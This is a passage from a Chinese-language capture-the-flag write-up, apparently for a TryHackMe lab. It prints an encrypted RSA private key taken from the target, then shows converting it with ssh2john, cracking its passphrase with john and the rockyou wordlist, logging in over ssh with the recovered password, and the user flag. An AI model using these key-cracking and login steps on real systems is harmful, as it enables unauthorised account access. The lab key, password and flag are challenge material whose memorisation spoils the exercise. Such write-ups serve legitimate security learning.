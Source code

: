 ```
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,9F85D92F34F42626F13A7493AB48F337

LNu5wQBBz7pKZ3cc4TWlxIUuD/opJi1DVpPa06pwiHHhe8Zjw3/v+xnmtS3O+qiN
JHnLS8oUVR6Smosw4pqLGcP3AwKvrzDWtw2ycO7mNdNszwLp3uto7ENdTIbzvJal
73/eUN9kYF0ua9rZC6mwoI2iG6sdlNL4ZqsYY7rrvDxeCZJkgzQGzkB9wKgw1ljT
WDyy8qncljugOIf8QrHoo30Gv+dAMfipTSR43FGBZ/Hha4jDykUXP0PvuFyTbVdv
BMXmr3xuKkB6I6k/jLjqWcLrhPWS0qRJ718G/u8cqYX3oJmM0Oo3jgoXYXxewGSZ
AL5bLQFhZJNGoZ+N5nHOll1OBl1tmsUIRwYK7wT/9kvUiL3rhkBURhVIbj2qiHxR
3KwmS4Dm4AOtoPTIAmVyaKmCWopf6le1+wzZ/UprNCAgeGTlZKX/joruW7ZJuAUf
ABbRLLwFVPMgahrBp6vRfNECSxztbFmXPoVwvWRQ98Z+p8MiOoReb7Jfusy6GvZk
VfW2gpmkAr8yDQynUukoWexPeDHWiSlg1kRJKrQP7GCupvW/r/Yc1RmNTfzT5eeR
OkUOTMqmd3Lj07yELyavlBHrz5FJvzPM3rimRwEsl8GH111D4L5rAKVcusdFcg8P
9BQukWbzVZHbaQtAGVGy0FKJv1WhA+pjTLqwU+c15WF7ENb3Dm5qdUoSSlPzRjze
eaPG5O4U9Fq0ZaYPkMlyJCzRVp43De4KKkyO5FQ+xSxce3FW0b63+8REgYirOGcZ
4TBApY+uz34JXe8jElhrKV9xw/7zG2LokKMnljG2YFIApr99nZFVZs1XOFCCkcM8
GFheoT4yFwrXhU1fjQjW/cR0kbhOv7RfV5x7L36x3ZuCfBdlWkt/h2M5nowjcbYn
exxOuOdqdazTjrXOyRNyOtYF9WPLhLRHapBAkXzvNSOERB3TJca8ydbKsyasdCGy
AIPX52bioBlDhg8DmPApR1C1zRYwT1LEFKt7KKAaogbw3G5raSzB54MQpX6WL+wk
6p7/wOX6WMo1MlkF95M3C7dxPFEspLHfpBxf2qys9MqBsd0rLkXoYR6gpbGbAW58
dPm51MekHD+WeP8oTYGI4PVCS/WF+U90Gty0UmgyI9qfxMVIu1BcmJhzh8gdtT0i
n0Lz5pKY+rLxdUaAA9KVwFsdiXnXjHEE1UwnDqqrvgBuvX6Nux+hfgXi9Bsy68qT
8HiUKTEsukcv/IYHK1s+Uw/H5AWtJsFmWQs3bw+Y4iw+YLZomXA4E7yxPXyfWm4K
4FMg3ng0e4/7HRYJSaXLQOKeNwcf/LW5dipO7DmBjVLsC8eyJ8ujeutP/GcA5l6z
ylqilOgj4+yiS813kNTjCJOwKRsXg2jKbnRa8b7dSRz7aDZVLpJnEy9bhn6a7WtS
49TxToi53ZB14+ougkL4svJyYYIRuQjrUmierXAdmbYF9wimhmLfelrMcofOHRW2
+hL1kHlTtJZU8Zj2Y2Y3hd6yRNJcIgCDrmLbn9C5M0d7g0h2BlFaJIZOYDS6J6Yk
2cWk/Mln7+OhAApAvDBKVM7/LGR9/sVPceEos6HTfBXbmsiV+eoFzUtujtymv8U7
-----END RSA PRIVATE KEY-----
```
- 那我們當然就把這一串存到自己的電腦，再嘗試 run 看看囉!!
	- `chmod 600 James_key.pem`
	- `ssh james@10.10.214.180 -i James_key.pem`
	- ![](https://i.imgur.com/8lp75sM.png)
	- 發現 key 需要用密碼!
- 爆密碼
	- 老梗，請約翰出場，先找 `ssh2john` 把 key 轉 `john` 的格式
		- `python3 ../ssh2john.py James_key.pem > James_john.txt`
	- 再來就 run john 囉!
	- `john James_john.txt --wordlist=/opt/rockyou.txt`
		- 密碼就出來囉!!
		- ![](https://i.imgur.com/ohLWuxD.png)
		- `james13`
		- (其實我先跑了 rot47 的密碼，但失敗了QQ)
- 使用 ssh 進行登入
	- `ssh james@10.10.214.180 -i James_key.pem`
	- 搭配密碼 `james13`
	- 成功登入!
	- ![](https://i.imgur.com/LciR33S.png)
	- 取得 `user.txt`
		- `thm{65c1aaf000506e56996822c6281e6bf7}`
